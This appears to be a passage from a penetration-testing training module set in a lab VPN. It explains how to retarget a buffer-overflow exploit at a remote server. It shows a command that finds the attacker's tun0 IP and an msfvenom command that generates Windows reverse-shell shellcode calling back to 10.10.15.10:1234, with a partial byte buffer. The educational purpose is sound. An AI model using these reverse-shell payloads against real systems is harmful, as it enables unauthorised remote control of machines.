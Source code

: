

## Remote Exploitation

***

As we have built and tested our exploit, we can now try running it on a real remote server. We can use the same exploit on the real target, and we only need to change the `IP` and `port` in our script to aim it at the new target and change the shellcode we use within the script to something that will send us a reverse shell.

***

### Reverse Shell Shellcode

First, we need to find our machine's IP, which should be reachable by the remote server (in the same network subnet):

&#x20; Remote Exploitation

```shell-session
root@htb[/htb]$ ip -4 a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    ...SNIP...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    inet 10.10.15.10/23 brd 10.10.15.255 scope global tun0
```

The IP we will use is `tun0`'s IP, as our VM is on the same `10.10.` subnet.

Note: You need to be connected to the VPN to be able to interact with the remote server, so download the VPN key in case you want to run the exploit from your own machine. The PwnBox instance is already connected to the VPN, so you should be able to connect to the remote server.

Next, we will generate the shellcode that will send us a reverse shell, which we can get with the `windows/shell_reverse_tcp` payload in `msfvenom`, as follows:

&#x20; Remote Exploitation

```shell-session
root@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
...SNIP...
```

